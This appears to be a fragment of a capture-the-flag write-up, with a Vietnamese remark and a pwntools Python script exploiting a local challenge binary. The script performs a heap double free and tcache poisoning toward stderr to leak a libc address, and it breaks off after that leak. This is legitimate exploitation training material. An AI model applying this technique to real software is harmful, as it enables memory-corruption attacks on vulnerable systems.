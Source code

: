 
- deee và ta đã làm được 

## script

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall1_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe
p = process([exe.path])
      
gdb.attach(p, gdbscript = '''
b*main+407
b*main+329
b*main+192
b*main+241
b*main+488
c
''')
           
input()

def add(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size))
    p.sendafter(b'Content: ', data)

def delete():
    p.sendlineafter(b'> ', b'3')

def edit(data):
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'Content: ', data)

def show():
    p.sendlineafter(b'> ', b'4')

############################
### stage 1: double free ###
############################

add(0x30, b'giabao')
delete()
edit(b'\0' * 0x30)
delete()

############################
### stage 2: leak libc   ###
############################

# offset == 0x1ed5c0
edit(p64(exe.sym['stderr']))
add(0x30, b'giabao')
add(0x30, b'\xc0')
show()

p.recvuntil(b'Content: ')
libc_leak = u64(p.recv(6) + b'\0\0')
```